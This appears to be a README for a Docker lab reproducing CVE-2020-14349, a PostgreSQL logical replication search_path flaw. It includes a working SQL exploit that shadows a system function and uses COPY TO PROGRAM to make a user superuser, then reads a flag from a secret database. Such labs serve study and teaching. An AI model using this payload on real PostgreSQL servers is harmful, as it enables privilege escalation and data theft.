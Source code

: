 # CVE-2020-14349: PostgreSQL Logical Replication search_path Vulnerability

This vulnerability exists in PostgreSQL versions before 12.4. The issue is that logical replication connections don't reset their search_path, allowing an attacker to create malicious functions in the public schema that will be called instead of the system functions.

## Setup

1. Build and start the container:
```bash
docker-compose up --build
```

2. Connect to the database:
```bash
psql -h localhost -U user1 -d db1
# Password: password
```

## Exploitation

1. Create a malicious function in the public schema that will be called instead of pg_get_replica_identity_index:

```sql
CREATE OR REPLACE FUNCTION public.pg_get_replica_identity_index(int)
RETURNS regclass
LANGUAGE plpgsql
AS $$
BEGIN
    COPY (SELECT 1) TO PROGRAM '/pg12/postgres/bin/psql -c "ALTER USER user1 WITH SUPERUSER;" postgres';
    RETURN pg_catalog.pg_get_replica_identity_index($1);
END;
$$;
```

2. Wait for the script to resynchronize the table (runs every minute)

3. Connect to the secret database and read the flag:
```sql
\c secret_db
SELECT * FROM secret_table;
```

## Technical Details

The vulnerability exists because logical replication connections don't reset their search_path to a safe value. When the replication connection is established, it will look for functions in the public schema first before checking pg_catalog. By creating a malicious function with the same name as a system function, we can trick the replication process into executing our code with elevated privileges.

This vulnerability was fixed in PostgreSQL 12.4 by ensuring that logical replication connections always use a safe search_path. 